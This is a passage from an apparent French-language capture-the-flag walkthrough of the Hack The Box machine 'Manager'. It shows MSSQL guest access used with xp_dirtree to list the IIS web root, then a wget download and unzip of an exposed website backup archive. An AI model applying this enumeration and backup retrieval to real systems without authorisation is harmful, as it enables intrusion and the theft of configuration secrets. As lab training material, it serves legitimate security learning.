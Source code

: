 ```shell
SQL (MANAGER\Operator  guest@master)> EXEC xp_dirtree 'C:\inetpub';
subdirectory                     depth   
------------------------------   -----   
custerr                              1   
en-US                                2   
history                              1   
logs                                 1   
temp                                 1   
appPools                             2   
IIS Temporary Compressed Files       2   
wwwroot                              1   
css                                  2   
images                               2   
js                                   2   
SQL (MANAGER\Operator  guest@master)> EXEC xp_dirtree 'C:\inetpub\wwwroot\', 0, 1;
jquery-3.4.1.min.js                   2      1   
service.html                          1      1   
web.config                            1      1   
website-backup-27-07-23-old.zip       1      1   

```

Je trouve un backup du site a l'interieur de la racine `wwwroot`, alors je veux le telecharger avec `wget`

```shell
└─# wget http://manager.htb/website-backup-27-07-23-old.zip                            
--2024-03-28 14:45:23--  http://manager.htb/website-backup-27-07-23-old.zip
Resolving manager.htb (manager.htb)... 10.129.243.129
Connecting to manager.htb (manager.htb)|10.129.243.129|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1045328 (1021K) [application/x-zip-compressed]
Saving to: ‘website-backup-27-07-23-old.zip’

website-backup-27-07-23-old.zip                 100%[====================================================================================================>]   1021K  47.9KB/s    in 24s     

2024-03-28 14:45:48 (42.5 KB/s) - ‘website-backup-27-07-23-old.zip’ saved [1045328/1045328]

─# unzip website-backup-27-07-23-old.zip -d web_backup
Archive:  website-backup-27-07-23-old.zip
  inflating: web_backup/.old-conf.xml  
  inflating: web_backup/about.html   
  inflating: web_backup/contact.html  
  inflating: web_backup/css/bootstrap.css  
  inflating: web_backup/css/responsive.css  
  inflating: web_backup/css/style.css  
  inflating: web_backup/css/style.css.map  
  inflating: web_backup/css/style.scss  
  inflating: web_backup/images/about-img.png  
  inflating: web_backup/images/body_bg.jpg  
 extracting: web_backup/images/call.png  
 extracting: web_backup/images/call-o.png  
  inflating: web_backup/images/client.jpg  
  inflating: web_backup/images/contact-img.jpg  
 extracting: web_backup/images/envelope.png  
 extracting: web_backup/images/envelope-o.png  
  inflating: web_backup/images/hero-bg.jpg  
 extracting: web_backup/images/location.png  
 extracting: web_backup/images/location-o.png  
 extracting: web_backup/images/logo.png  
  inflating: web_backup/images/menu.png  
 extracting: web_backup/images/next.png  
 extracting: web_backup/images/next-white.png  
```